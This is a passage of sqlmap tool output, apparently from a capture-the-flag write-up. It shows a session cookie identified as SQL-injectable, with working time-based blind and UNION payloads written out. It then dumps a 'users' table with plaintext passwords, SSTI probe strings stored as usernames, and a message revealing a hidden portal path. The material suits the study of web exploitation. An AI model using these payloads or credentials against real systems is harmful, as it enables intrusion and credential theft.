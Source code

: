 ```
[12:03:13] [INFO] (custom) HEADER parameter 'Cookie #1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
(custom) HEADER parameter 'Cookie #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 76 HTTP(s) requests:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session=' AND (SELECT 5262 FROM (SELECT(SLEEP(5)))WhHw) AND 'VsIT'='VsIT

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: session=' UNION ALL SELECT CONCAT(0x71706b7a71,0x77436e78697854715949745242547551727665535148484c705875437172736b78566563736e5442,0x716a6b6a71)-- -
---
[12:04:19] [WARNING] changes made by tampering scripts are not included in shown payload content(s)

...[snip]...

[12:04:31] [INFO] fetching columns for table 'users' in database 'shop'
[12:04:32] [INFO] fetching entries for table 'users' in database 'shop'
Database: shop
Table: users
[3 entries]
+----+--------------------------------------+------------+-----------------+
| id | uuid                                 | name       | password        |
+----+--------------------------------------+------------+-----------------+
| 1  | 129f60ea-30cf-4065-afb9-6be45ad38b73 | chiv       | ch1VW4sHERE7331 |
| 2  | 6c22d504-24db-4737-924c-ceb77daa07a0 | {% raw %}{{7*7}}{% endraw %}    | a               |
| 3  | d9b910d5-3180-4274-a3e0-6d82e9fef789 | {% raw %}{{config}}{% endraw %} | a               |
+----+--------------------------------------+------------+-----------------+

...[snip]...

[12:04:33] [INFO] fetching columns for table 'messages' in database 'shop'
[12:04:34] [INFO] fetching entries for table 'messages' in database 'shop'
Database: shop
Table: messages
[1 entry]
+---------+---------+-----------------------------------------------------------------------------------+---------------------+
| post_id | creator | message                                                                           | timestamp           |
+---------+---------+-----------------------------------------------------------------------------------+---------------------+
| 1       | 1       | Fix the <b>/a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal</b> portal! | 2020-04-24 15:02:41 |
+---------+---------+-----------------------------------------------------------------------------------+---------------------+

...[snip]...
```
